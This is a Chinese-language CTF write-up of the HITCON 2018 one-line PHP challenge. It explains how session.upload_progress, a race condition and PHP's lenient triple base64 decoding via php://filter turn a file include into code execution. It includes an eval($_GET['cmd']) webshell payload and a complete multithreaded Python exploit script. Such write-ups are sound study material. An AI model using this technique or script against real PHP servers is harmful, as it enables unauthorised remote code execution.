



# hitcon-2018-one-line-php-challenge

题目就一行 PHP，简洁明了
```php
<?php
  ($_=@$_GET['orange']) && @substr(file($_)[0],0,6) === '@<?php' ? include($_) : highlight_file(__FILE__);
```

从题目可以看出是需要我们通过包含某文件来 getshell，那么就需要上传 shell 才行，题目却没有上传功能，这里就需要用到 session.upload_progress 的知识点

## session.upload_progress



`ini_get['session.upload_progress.name']` 默认值为 `"PHP_SESSION_UPLOAD_PROGRESS"`
`ini_get('session.upload_progress.prefix')` 默认值为 `"upload_progress_"`




因此当 `session.upload_progress.enabled` 开启（默认开启）时，我们只需要在上传文件的同时，上传一个 `PHP_SESSION_UPLOAD_PROGRESS` 为 name 的变量值，就能在 `$_SESSION` 数组中产生一个如下形式的键值

```php
'upload_progress_' . $_POST['PHP_SESSION_UPLOAD_PROGRESS']
```

`$_POST['PHP_SESSION_UPLOAD_PROGRESS']` 值可控，我们便可以写入 shell 到 session 文件。

但是该题并没有用到 session，无法产生 session 文件，这里有另一个 trick

POST 请求中只要包含 `PHP_SESSION_UPLOAD_PROGRESS` 这个键值，并带上 `PHPSESSID`，同时进行文件上传，就会直接创建一个`session` 文件。

但如果 `session.upload_progress.cleanup=On`（默认开启），POST 数据一旦读取完毕，就会清空 session 内容，因此还需要用到条件竞争

## php 的 base64_decode
session 文件有了shell，但文件开头是 `upload_progress_<?php shell>`，题目却需要开头 6 个字符是 `@<?php`。因此需要利用 php base64 解码函数的特性。

base64 解码函数可以接受的字符范围是[A-Za-z0-9+/=]，但是如果 php 的 `base64_decode` 遇到了不在此范围内的字符，php 就会直接跳过这些字符，只把在此范围的字符连起来进行解码。

借助此特性，我们可以利用该函数，把 shell encode 多次，然后与 `upload_progress_` 拼接，再 decode 多次，使得其刚好消除。

Orange 官方解法是在 payload 前加了 ZZ，形成 `upload_progress_ZZ`

base64 decode是每 4 个字节进行解码的，`upload_progress_ZZ` 去掉 `_` 刚好 16 个字符，一次解码 12 个字符，只有 4 个范围内，二次解码剩 3 个，都不在范围内，第 3 次解码则为空。



因此最终的 payload 为：
`"upload_progress_ZZ".base64_encode(base64_encode(base64_encode('@<?php eval($_GET['cmd']);')));`

另外还有一个需要注意的点
`php://filter` 在 `base64_decode` 遇到 `XXX=YYY` 这种情况时会出错，因此在三次 decode 过程中都不能有 `=`

Orange 师傅的 PoC：

```Python
import sys
import string
import requests
from base64 import b64encode
from random import sample, randint
from multiprocessing.dummy import Pool as ThreadPool


HOST = 'http://127.0.0.1:8001/'
sess_name = 'iamorange'

headers = {
    'Connection': 'close',
    'Cookie': 'PHPSESSID=' + sess_name
}

payload = '@<?php eval($_GET["cmd"]);?>'


while 1:
    junk = ''.join(sample(string.ascii_letters, randint(8, 16)))
    x = b64encode(payload + junk)
    xx = b64encode(b64encode(payload + junk))
    xxx = b64encode(b64encode(b64encode(payload + junk)))
    if '=' not in x and '=' not in xx and '=' not in xxx:
        payload = xxx
        print payload
        break

def runner1(i):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': 'ZZ' + payload + 'Z'
    }
    while 1:
        fp = open('/etc/passwd', 'rb')
        r = requests.post(HOST, files={'f': fp}, data=data, headers=headers)
        fp.close()

def runner2(i):
    filename = '/var/lib/php/sessions/sess_' + sess_name
    filename = 'php://filter/convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=%s' % filename
    # print filename
    while 1:
        url = '%s?orange=%s' % (HOST, filename)
        r = requests.get(url, headers=headers)
        c = r.content
        if c and 'orange' not in c:
            print [c]


if sys.argv[1] == '1':
    runner = runner1
else:
    runner = runner2

pool = ThreadPool(32)
result = pool.map_async( runner, range(32) ).get(0xffff)
```


除了 `base64_decode` 外，也可以用其他 encode 方法，例如 `strip_tags`

## References
[hitcon 2018受虐笔记一:one-line-php-challenge 学习](http://wonderkun.cc/index.html/?p=718)

[HITCON CTF 2018 Web](http://blog.kaibro.tw/2018/10/24/HITCON-CTF-2018-Web/)

